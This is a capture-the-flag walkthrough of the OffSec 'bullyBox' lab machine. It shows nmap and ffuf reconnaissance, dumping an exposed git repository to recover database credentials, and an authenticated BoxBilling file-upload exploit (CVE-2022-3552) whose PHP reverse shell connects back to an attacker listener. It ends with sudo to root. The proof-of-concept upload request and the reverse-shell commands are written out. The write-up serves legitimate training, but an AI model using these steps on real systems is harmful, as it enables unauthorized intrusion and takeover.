



# bullyBox

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 1
Lab Description:
This lab demonstrates exploiting a git directory exposure to retrieve sensitive configuration files, including 
database credentials. Using these credentials, learners log into the BoxBilling admin panel and exploit an 
authenticated RCE vulnerability (CVE-2022-XXXX). Privilege escalation is achieved as the compromised user yuki 
is part of the sudo group, enabling direct root access. This lab highlights misconfigured git repositories, 
web exploitation, and privilege escalation via sudo permissions.
Released: 31 Aug 2023
```

Machine link: [https://portal.offsec.com/machine/bullybox-52203/overview/details](https://portal.offsec.com/machine/bullybox-52203/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ export TARGET_IP=192.168.210.27

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ sudo nmap -sC -sV -p- $TARGET_IP                
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-16 14:19 +0200
Nmap scan report for 192.168.210.27
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.67 seconds
```

We have two TCP-services running and available:

- OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 on port 22
- Apache httpd 2.4.52 port 80

We also do an UDP-scan of the top 100 ports but find nothing

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-16 14:22 +0200
Nmap scan report for 192.168.210.27
Host is up (0.033s latency).
All 100 scanned ports on 192.168.210.27 are in ignored states.
Not shown: 100 closed udp ports (port-unreach)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.20 seconds
```

### Check the web site

Accessing the website on port 80 redirects to `bullybox.local` so we add this machine to our `/etc/hosts`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ echo -e "$TARGET_IP\tbullybox.local" | sudo tee -a /etc/hosts
[sudo] password for kali: 
192.168.210.27  bullybox.local

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ tail -n1 /etc/hosts
192.168.210.27  bullybox.local
```



We register a new user:

- Email: `cajac@bogus.com`
- Name: `cajac`
- Password `cajac123`

This gives us some more options in the menu



Checking the HTML source we find a likely version (`4.22.1.5`)

```html
<!DOCTYPE html>
<html>
<head>
    <title>Client Area </title>

    <meta property="bb:url" content="http://bullybox.local/"/>
    <meta property="bb:client_area" content="http://bullybox.local/"/>
    
    <meta name="description" content="" />
    <meta name="keywords" content="" />
    <meta name="robots" content="index, follow" />
    <meta http-equiv="content-type" content="text/html; charset=utf-8" />

    <link rel="shortcut icon" href="http://bullybox.local/bb-themes/boxbilling/assets/favicon.ico" />
    <link href="https://fonts.googleapis.com/css?family=Cuprum" rel="stylesheet" type="text/css" />
    <link rel="stylesheet" type="text/css" href="http://bullybox.local/bb-themes/boxbilling/assets/css/print.css?v=4.22.1.5" media="print" />
    <link rel="stylesheet" type="text/css" href="http://bullybox.local/bb-themes/boxbilling/assets/css/style.css?v=4.22.1.5" media="screen" />

    <script type="text/javascript" src="http://bullybox.local/bb-themes/boxbilling/assets/js/jquery.min.js?4.22.1.5"></script>
    <script type="text/javascript" src="http://bullybox.local/bb-themes/boxbilling/assets/js/jquery.tipsy.js?4.22.1.5"></script>
    <script type="text/javascript" src="http://bullybox.local/bb-themes/boxbilling/assets/js/bb-jquery.js?4.22.1.5"></script>

        </head>
<!---snip--->
```

A scan with `whatweb` gives us the following information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ whatweb -a3 http://$TARGET_IP     
http://192.168.210.27 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.210.27], Script
```

Scanning for additional interesting directories with `ffuf` we get

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ ffuf -c -w /usr/share/wordlists/dirb/common.txt -recursion -fc 403 -fs 3971 -u http://bullybox.local/FUZZ                

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bullybox.local/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
 :: Filter           : Response size: 3971
________________________________________________

                        [Status: 200, Size: 10462, Words: 3564, Lines: 265, Duration: 80ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 84ms]
about-us                [Status: 200, Size: 9436, Words: 3100, Lines: 210, Duration: 258ms]
balance                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 113ms]
blog                    [Status: 200, Size: 10663, Words: 3398, Lines: 236, Duration: 169ms]
cart                    [Status: 200, Size: 9299, Words: 3074, Lines: 242, Duration: 225ms]
client                  [Status: 302, Size: 3994, Words: 1590, Lines: 4, Duration: 97ms]
contact-us              [Status: 200, Size: 11039, Words: 4205, Lines: 282, Duration: 170ms]
dashboard               [Status: 302, Size: 13538, Words: 5730, Lines: 375, Duration: 211ms]
email                   [Status: 302, Size: 8976, Words: 3239, Lines: 221, Duration: 55ms]
emails                  [Status: 302, Size: 8976, Words: 3239, Lines: 221, Duration: 76ms]
example                 [Status: 200, Size: 4185, Words: 1602, Lines: 4, Duration: 162ms]
forum                   [Status: 200, Size: 9808, Words: 3682, Lines: 234, Duration: 198ms]
index.php               [Status: 200, Size: 10462, Words: 3564, Lines: 265, Duration: 119ms]
invoice                 [Status: 302, Size: 9558, Words: 3532, Lines: 238, Duration: 124ms]
kb                      [Status: 200, Size: 9522, Words: 3267, Lines: 222, Duration: 76ms]
LICENSE                 [Status: 200, Size: 11346, Words: 2514, Lines: 203, Duration: 35ms]
login                   [Status: 200, Size: 14605, Words: 6197, Lines: 350, Duration: 108ms]
me                      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 37ms]
news                    [Status: 200, Size: 10663, Words: 3398, Lines: 236, Duration: 249ms]
order                   [Status: 200, Size: 12532, Words: 4220, Lines: 302, Duration: 346ms]
privacy-policy          [Status: 200, Size: 10669, Words: 3276, Lines: 216, Duration: 90ms]
robots.txt              [Status: 200, Size: 716, Words: 77, Lines: 21, Duration: 34ms]
service                 [Status: 302, Size: 9188, Words: 3322, Lines: 229, Duration: 155ms]
sitemap.xml             [Status: 200, Size: 1719, Words: 295, Lines: 54, Duration: 60ms]
support                 [Status: 302, Size: 11285, Words: 4118, Lines: 294, Duration: 172ms]
tos                     [Status: 200, Size: 10263, Words: 3224, Lines: 210, Duration: 158ms]
:: Progress: [4614/4614] :: Job [1/1] :: 160 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

We filter the size of an error page (`-fs 3791`). Note the `.git/HEAD` file.

### Search for exploit(s)

Checking if there are any available exploits we find

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ searchsploit boxbilling                         
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BoxBilling 3.6.11 - 'mod_notification' Persistent Cross-Site Scripting                                                                                                                | php/webapps/30083.txt
BoxBilling<=4.22.1.5 - Remote Code Execution (RCE)                                                                                                                                    | php/webapps/51108.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ searchsploit -m 51108  
  Exploit: BoxBilling<=4.22.1.5 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/51108
     Path: /usr/share/exploitdb/exploits/php/webapps/51108.txt
    Codes: CVE-2022-3552
 Verified: True
File Type: ASCII text
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Intermediate/bullyBox/51108.txt


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ cat 51108.txt 
# Exploit Title: BoxBilling<=4.22.1.5 - Remote Code Execution (RCE)
# Date: 2022-09-18
# Exploit Author: zetc0de
# Vendor Homepage: https://www.boxbilling.org/
# Software Link:
https://github.com/boxbilling/boxbilling/releases/download/4.22.1.5/BoxBilling.zip
# Version: <=4.22.1.5 (Latest)
# Tested on: Windows 10
# CVE : CVE-2022-3552
# BoxBilling was vulnerable to Unrestricted File Upload.
# In order to exploit the vulnerability, an attacker must have a valid
authenticated session as admin on the CMS.
# With at least 1 order of product an attacker can upload malicious file to
hidden API endpoint that contain a webshell and get RCE
###################################################################################


## POC
POST /index.php?_url=/api/admin/Filemanager/save_file HTTP/1.1
Host: local.com:8089
Content-Length: 52
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=3nrf9i4mv28o5anva77ltq042d
Connection: close

order_id=1&path=ax.php&data=<%3fphp+phpinfo()%3b%3f>

POC Video :
https://drive.google.com/file/d/1m2glCeJ9QXc8epuY2QfvbWwjLTJ8_Hjx/view?usp=sharing   
```

The exploit requires admin access and mentions the CVE `CVE-2022-3552`.

Googling for RCE exploits on GitHub we find [this one](https://github.com/0xk4b1r/CVE-2022-3552).

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ wget https://raw.githubusercontent.com/0xk4b1r/CVE-2022-3552/refs/heads/main/CVE-2022-3552.py
--2026-04-16 16:53:43--  https://raw.githubusercontent.com/0xk4b1r/CVE-2022-3552/refs/heads/main/CVE-2022-3552.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6579 (6.4K) [text/plain]
Saving to: ‘CVE-2022-3552.py’

CVE-2022-3552.py                                      100%[=========================================================================================================================>]   6.42K  --.-KB/s    in 0.003s  

2026-04-16 16:53:44 (2.07 MB/s) - ‘CVE-2022-3552.py’ saved [6579/6579]
```

### Analyse the exploit

The exploits contains its own php-reverse-shell and we need to update the IP and port.

We also need to fix the shebang and make sure PwnTools is available

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ source ~/Python_venvs/PwnTools/bin/activate

┌──(PwnTools)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ head CVE-2022-3552.py                                        
#!/usr/bin/env python

from pwn import *
from sys import exit
import requests
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()

┌──(PwnTools)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ grep 'changed this' -A1 CVE-2022-3552.py
  $ip = '192.168.45.154';  // You have changed this
  $port = 80;  // And this

┌──(PwnTools)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ ./CVE-2022-3552.py -h
usage: CVE-2022-3552.py [-h] [-d DOMAIN] [-u EMAIL] [-p PASSWORD] [-li LOCAL_IP] [-lp PORT]

options:
  -h, --help            show this help message and exit
  -d, --domain DOMAIN   Domain URL Address.
  -u, --email EMAIL     Login Username.
  -p, --password PASSWORD
                        Login Password.
  -li, --local-ip LOCAL_IP
                        Enter your IP Address.
  -lp, --port PORT      Enter the port number.
```

Since we don't have credentials yet, we will come back to this exploit later!

### Dump the Git repository

Then we dump the git repo we found earlier with `git-dumper`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ source ~/Python_venvs/git-dumper/bin/activate

┌──(git-dumper)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ git-dumper -h  
usage: git-dumper [options] URL DIR

Dump a git repository from a website.

positional arguments:
  URL                   url
  DIR                   output directory

options:
  -h, --help            show this help message and exit
  --proxy PROXY         use the specified proxy
  --client-cert-p12 CLIENT_CERT_P12
                        client certificate in PKCS#12
  --client-cert-p12-password CLIENT_CERT_P12_PASSWORD
                        password for the client certificate
  -j, --jobs JOBS       number of simultaneous requests
  -r, --retry RETRY     number of request attempts before giving up
  -t, --timeout TIMEOUT
                        maximum time in seconds before giving up
  -u, --user-agent USER_AGENT
                        user-agent to use for requests
  -H, --header HEADER   additional http headers, e.g `NAME=VALUE`

┌──(git-dumper)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ git-dumper http://bullybox.local/.git bullybox_git
[-] Testing http://bullybox.local/.git/HEAD [200]
[-] Testing http://bullybox.local/.git/ [403]
[-] Fetching common files
[-] Fetching http://bullybox.local/.git/COMMIT_EDITMSG [200]
[-] Fetching http://bullybox.local/.git/description [200]
[-] Fetching http://bullybox.local/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://bullybox.local/.gitignore [404]
[-] http://bullybox.local/.gitignore responded with status code 404
[-] Fetching http://bullybox.local/.git/hooks/commit-msg.sample [200]
[-] Fetching http://bullybox.local/.git/hooks/pre-push.sample [200]
[-] Fetching http://bullybox.local/.git/hooks/pre-receive.sample [200]
[-] Fetching http://bullybox.local/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://bullybox.local/.git/index [200]
[-] Fetching http://bullybox.local/.git/hooks/update.sample [200]
[-] Fetching http://bullybox.local/.git/info/exclude [200]
[-] Fetching http://bullybox.local/.git/objects/info/packs [404]
[-] http://bullybox.local/.git/objects/info/packs responded with status code 404
[-] Fetching http://bullybox.local/.git/hooks/post-commit.sample [404]
[-] http://bullybox.local/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://bullybox.local/.git/hooks/post-receive.sample [404]
[-] http://bullybox.local/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://bullybox.local/.git/hooks/post-update.sample [200]
[-] Fetching http://bullybox.local/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://bullybox.local/.git/hooks/pre-commit.sample [200]
[-] Fetching http://bullybox.local/.git/hooks/pre-rebase.sample [200]
[-] Finding refs/
[-] Fetching http://bullybox.local/.git/HEAD [200]
[-] Fetching http://bullybox.local/.git/logs/HEAD [200]
[-] Fetching http://bullybox.local/.git/config [200]
<---snip--->
```

We can now run `git` commands on the local copy

```bash
┌──(git-dumper)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ cd bullybox_git            

┌──(git-dumper)─(kali㉿kali)-[/mnt/…/PG_Practice/Intermediate/bullyBox/bullybox_git]
└─$ ls -la
total 4
drwxrwxrwx 1 root root    0 Apr 16 15:28 .
drwxrwxrwx 1 root root    0 Apr 16 15:27 ..
drwxrwxrwx 1 root root 4096 Apr 16 15:28 .git

┌──(git-dumper)─(kali㉿kali)-[/mnt/…/PG_Practice/Intermediate/bullyBox/bullybox_git]
└─$ git log                                                                                                    
commit ccf7c701c4bd22484cbe5d9f8f92511261aadef0 (HEAD -> master)
Author: Yuki <admin@bullybox.local>
Date:   Tue Jun 27 04:35:12 2023 +0000

    Ready For launch
```

### Search for credentials

Next, we search for credentials in the repo

```bash
┌──(kali㉿kali)-[/mnt/…/PG_Practice/Intermediate/bullyBox/bullybox_git]
└─$ grep -iR password *.php       
bb-config.php:    'password' => 'Playing-Unstylish7-Provided',
bb-config-sample.php:         * Database password
bb-config-sample.php:        'password'   => getenv('DB_PASS') ?: 'foo',
bb-di.php:        $c['password'],
bb-di.php:$di['password'] = function() use ($di) { return new Box_Password();};
bb-update.php:            'client_password_reset'     => array('created_at', 'updated_at'),
bb-update.php:                'smtp_password' =>  $api->system_param(array("key"=>"smtp_password")),
bb-update.php:                'sendgrid_password' =>  $api->system_param(array("key"=>"sendgrid_password")),
rb.php:  * Constructor. You may either specify dsn, user and password or
rb.php:  * $driver = new RPDO( $dsn, $user, $password );
rb.php:  * and a password. It's also possible to pass a PDO object.
rb.php:  * @param string        $pass optional, password for connection login
rb.php:  * R::setup( 'mysql:host=localhost;dbname=mydatabase', 'dba', 'dbapassword' );
rb.php:  * @param string  $password     Password for database
rb.php: public static function setup( $dsn = NULL, $username = NULL, $password = NULL, $frozen = FALSE, $partialBeans = FALSE, $options = array() )
rb.php:         self::addDatabase( 'default', $dsn, $username, $password, $frozen, $partialBeans, $options );
rb.php:  * @param NULL|string $pass   password for connection
rb.php:  * R::createToolbox( 'mysql:host=localhost;dbname=mydatabase', 'dba', 'dbapassword' );
rb.php:  * @param string  $password Password for database
rb.php:  public static function createToolbox( $dsn = NULL, $username = NULL, $password = NULL, $frozen = FALSE, $partialBeans = FALSE, $options = array() )
rb.php:                 $db = new RPDO( $dsn, $username, $password, $options );
rb.php:  * replace login scripts, token generation scripts and password reset scripts.
rb.php: * Tired of creating login systems and password-forget systems?
rb.php:  * replace login scripts, token generation scripts and password reset scripts.
rb.php:  * Usage (this example resets a password in one go):

┌──(kali㉿kali)-[/mnt/…/PG_Practice/Intermediate/bullyBox/bullybox_git]
└─$ head -n30 bb-config.php
<?php
return array (
  'debug' => false,
  'salt' => 'b94ff361990c5a8a37486ffe13fabc96',
  'url' => 'http://bullybox.local/',
  'admin_area_prefix' => '/bb-admin',
  'sef_urls' => true,
  'timezone' => 'UTC',
  'locale' => 'en_US',
  'locale_date_format' => '%A, %d %B %G',
  'locale_time_format' => ' %T',
  'path_data' => '/var/www/bullybox/bb-data',
  'path_logs' => '/var/www/bullybox/bb-data/log/application.log',
  'log_to_db' => true,
  'db' =>
  array (
    'type' => 'mysql',
    'host' => 'localhost',
    'name' => 'boxbilling',
    'user' => 'admin',
    'password' => 'Playing-Unstylish7-Provided',
  ),
  'twig' =>
  array (
    'debug' => true,
    'auto_reload' => true,
    'cache' => '/var/www/bullybox/bb-data/cache',
  ),
  'api' =>
  array (
```

We have a password for the admin user (`Playing-Unstylish7-Provided`).

Also, note the 'admin_area_prefix' which is `/bb-admin`.

### Login as admin in the web GUI

Now we can login at `http://bullybox.local/bb-admin/` as admin:

- Email: `admin@bullybox.local`
- Password: `Playing-Unstylish7-Provided`



Credentials verified!

### Get a reverse shell

Now that we have verified credentials we can go back to our previously found exploit.

We start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ nc -lvnp 80                
listening on [any] 80 ...

```

and launch the exploit

```bash
┌──(PwnTools)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ ./CVE-2022-3552.py -d http://bullybox.local/ -u admin@bullybox.local -p Playing-Unstylish7-Provided                          
[+] Successfully logged in
[+] Payload saved successfully
[+] Getting Shell

```

Back at the netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ nc -lvnp 80                
listening on [any] 80 ...
connect to [192.168.45.154] from (UNKNOWN) [192.168.210.27] 36976
Linux bullybox 5.15.0-75-generic #82-Ubuntu SMP Tue Jun 6 23:10:23 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 15:12:27 up  1:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(yuki) gid=1001(yuki) groups=1001(yuki),27(sudo)
/bin/sh: 0: can't access tty; job control turned off
$ uid=1001(yuki) gid=1001(yuki) groups=1001(yuki),27(sudo)
$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

yuki@bullybox:/$ ^Z
zsh: suspended  nc -lvnp 80
                                                                                                                                                                                                                        
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/bullyBox]
└─$ stty raw -echo ; fg ; reset
[1]  + continued  nc -lvnp 80

yuki@bullybox:/$ export SHELL=/bin/bash
yuki@bullybox:/$ export TERM=xterm-256color
yuki@bullybox:/$ stty rows 200 columns 200
yuki@bullybox:/$ ^C
yuki@bullybox:/$ 
```

Now we have a stable shell that survives `Ctrl + C`!

### Enumeration for privesc

Checking what commands we can run with `sudo`

```bash
yuki@bullybox:/home/yuki$ sudo -l
Matching Defaults entries for yuki on bullybox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User yuki may run the following commands on bullybox:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
yuki@bullybox:/home/yuki$ 
```

we find that we can run **everything**!

### Get the root flag

So we can just get the root flag

```bash
yuki@bullybox:/home/yuki$ sudo cat /root/proof.txt
c<REDACTED>7
yuki@bullybox:/home/yuki$ 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [CVE-2022-3552 - 0xk4b1r - GitHub](https://github.com/0xk4b1r/CVE-2022-3552)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [ffuf - GitHub](https://github.com/ffuf/ffuf)
- [ffuf - Kali Tools](https://www.kali.org/tools/ffuf/)
- [ffuf - Wiki](https://github.com/ffuf/ffuf/wiki)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Git - Wikipedia](https://en.wikipedia.org/wiki/Git)
- [git-dumper - GitHub](https://github.com/arthaud/git-dumper)
- [git-log - Linux manual page](https://man7.org/linux/man-pages/man1/git-log.1.html)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [pwntools - GitHub](https://github.com/Gallopsled/pwntools)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [stty - Linux manual page](https://man7.org/linux/man-pages/man1/stty.1.html)
- [su - Linux manual page](https://man7.org/linux/man-pages/man1/su.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tail - Linux manual page](https://man7.org/linux/man-pages/man1/tail.1.html)
- [tee - Linux manual page](https://man7.org/linux/man-pages/man1/tee.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
